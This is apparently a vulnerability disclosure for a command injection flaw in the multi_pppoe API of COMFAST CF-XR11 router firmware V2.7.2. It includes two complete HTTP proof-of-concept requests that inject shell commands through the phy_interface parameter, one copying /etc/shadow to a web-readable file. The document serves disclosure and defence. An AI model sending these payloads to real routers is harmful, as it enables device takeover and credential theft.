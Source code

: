 # COMFAST CF-XR11 V2.7.2 Command Injection in `multi_pppoe`

## Overview
The COMFAST CF-XR11 is an 1800Mbps smart MESH router supporting multiple WAN configurations (e.g., PPPoE, DHCP, static IP) and Wi-Fi Portal authentication.

A command injection vulnerability exists in the COMFAST CF-XR11 (firmware V2.7.2) in the `multi_pppoe` API (`/usr/bin/webmgnt`, function `sub_423930`). Attackers can inject arbitrary commands via the `phy_interface` parameter in a POST request to `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`, enabling unauthorized access or full device compromise.

![PoC 2 Result: Root Directory Listing](./imgs/0.png)


## Details
- **Vendor**: COMFAST
- **Vendor Website**: http://www.comfast.cn/
- **Product**: COMFAST CF-XR11
- **Firmware**: V2.7.2
- **Firmware Download**: http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar
- **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)


### Description
The `phy_interface` parameter is unsanitized and used in a `system_0` call (`sprintf_0(v78, "ifdown %s; ifup %s", v76, v76)`). When `action` is set to `"one_click_redial"`, malicious input in `phy_interface` (e.g., `br-wan && cat /etc/shadow > /www-comfast/test.txt`) executes arbitrary commands.

![PoC 2 Result: Root Directory Listing](./imgs/1.png)

## Proof of Concept (PoC)

### PoC 1: Dump `/etc/shadow`
```http
POST http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=multi_pppoe HTTP/1.1
Host: cflogin.cn
Content-Length: 110
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16
Connection: close

{"action":"one_click_redial","phy_interface":"br-wan && cat /etc/shadow > /www-comfast/test.txt","real_num":1}
```

- **Steps**:
  1. Send the request using `curl` or Burp Suite.
  2. Access `http://cflogin.cn/test.txt` to view `/etc/shadow`.
- **Result**: The `/etc/shadow` file is written to `/www-comfast/test.txt`.

![PoC 2 Result: Root Directory Listing](./imgs/2.png)
![PoC 2 Result: Root Directory Listing](./imgs/3.png)

### PoC 2: List Root Directory (`ls /`)
```http
POST http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=multi_pppoe HTTP/1.1
Host: cflogin.cn
Content-Length: 110
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16
Connection: close

{"action":"one_click_redial","phy_interface":"br-wan && ls / > /www-comfast/test.txt","real_num":1}

```

- **Steps**:
  1. Send the request.
  2. Access `http://cflogin.cn/test.txt` to view the root directory listing.
- **Result**: The root directory listing is written to `/www-comfast/test.txt`.

![PoC 2 Result: Root Directory Listing](./imgs/4.png)
![PoC 2 Result: Root Directory Listing](./imgs/5.png)

## Affected Versions
- COMFAST CF-XR11 V2.7.2
